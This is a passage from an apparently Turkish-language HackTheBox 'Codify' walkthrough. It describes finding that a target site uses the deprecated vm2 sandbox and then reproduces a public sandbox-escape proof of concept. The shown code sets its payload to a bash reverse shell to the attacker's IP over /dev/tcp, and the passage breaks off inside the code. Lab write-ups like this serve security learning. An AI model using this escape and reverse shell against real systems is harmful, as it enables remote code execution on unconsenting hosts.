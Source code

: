 Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```

Tekrar aynı siteye gitmeyi denediğimde bu sefer başarılı oldum. Bu sayfada bulunan `About us` linkine tıkladım ve aşağıdaki sonuç ile karşılaştım:

![](../assets/images/codify/about-page.png)

Buradaki bilgilendirme metnini okuduğumda bu sitenin, JavaScript kodunu koruma altına almaya (sandbox) yarayan `vm2` isimli bir kütüphane kullandığını öğrendim. Verilen linke gittiğimde ise bu kütüphanenin, giderilemeyen güvenlik açıklarından dolayı artık geliştirilmediğini ve kullanılmaması gerektiği bilgisine ulaştım.

Kısa bir Google aramasından sonra bu durumla ilgili bir [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244#proof-of-concept) (Proof of Concept) koduna ulaştım. Bu kod sayesinde kötü amaçlı bir payload, sandbox sınırlarından kurtulup sistem üzerinde komut yürütebilir hale gelebiliyor.

Bu kodun `catch` bloğu içerisinde `payload` isimli bir değişken oluşturdum (aynı zamanda `execSync` içerisinde bu değişkeni kullandım) ve bu değişkenin değerini bir reverse shell olacak şekilde ayarladım:

```javascript title="PoC" hl_lines="21"
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {


    var payload = 'bash -c "bash -i &>/dev/tcp/10.10.14.45/4444 0>&1"';
```